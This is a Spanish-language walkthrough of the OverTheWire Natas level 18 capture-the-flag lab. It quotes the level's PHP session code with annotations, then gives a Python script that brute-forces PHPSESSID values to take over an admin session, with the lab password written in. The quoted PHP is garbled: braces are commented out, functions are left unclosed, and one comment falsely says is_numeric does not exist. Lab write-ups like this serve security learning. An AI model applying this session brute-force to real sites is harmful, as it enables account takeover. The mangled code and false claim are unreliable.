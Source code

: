 ```php
$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") {  //return 1; }  return 0; // comentado por inseguro asi que lo ignoraremos. }
    
function isValidID($id) { return is_numeric($id);  }    // Esta funcion "is numeric" no la he encontrado por ningún lado.
    
function createID($user) { global $maxid; return rand(1, $maxid); }  // número aleatorio del 1 al 640.
    
function debug($msg) {  if(array_key_exists("debug", $_GET)) { print "DEBUG: $msg<br>"; } 
//Si pones "http://natas18.natas.labs.overthewire.org/index.php?debug" te da algo mas de info, pero poco
       
function my_session_start() { 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) { // validamos que exista la Cookie phpsessid con el id_correcto
    if(!session_start()) { debug("Session start failed");  return false; // control de errores, ignorar por ahora
    } else {
        debug("Session start ok"); if(!array_key_exists("admin", $_SESSION)) {  // Si el id es bueno, se setea la flag "admin"
        debug("Session was old: admin flag set"); $_SESSION["admin"] = 0; return true;}}   return false;
        
function print_credentials() { // Basicamente si hay flag de amgin a 1 nos da la contraseña del sigiente nivel.
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>"; print "<pre>Username: natas19\n"; print "Password: <censored></pre>";
    } else { print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19."; }
    
// El resto son las llamadas a estas funciones
```    


Si es el correcto, nos seteará la flag "admin" a "1" y por tanto nos dará las credenciales. No se ve muy claro como valida cual es la PHPsessid buena 
a que nos manda a la función "isValidAdminLogin()" pero está comentada por insegura, asi que o lógico esque sea otra random que habra que fuzzear dicha
cookie de 1 a 640...

```python
import requests
from pwn import *

url = 'http://natas18.natas.labs.overthewire.org'
data = { 'username':'cucuxii', 'password':'pass123' }
badfrase = "You are logged in as a regular user"
p1 = log.progress("Probando con -> ")

for id in range(640):
        cookie = {'PHPSESSID': str(id) }
        p1.status(f"ID {id}")
        req = requests.post(url, auth=('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), data=data, cookies=cookie)
        if badfrase not in req.text:   # La vez que no diga que somo un usuario normal esque hemos ingresado con el ID bueno.
                print(id)
                print(req.text)
                break
```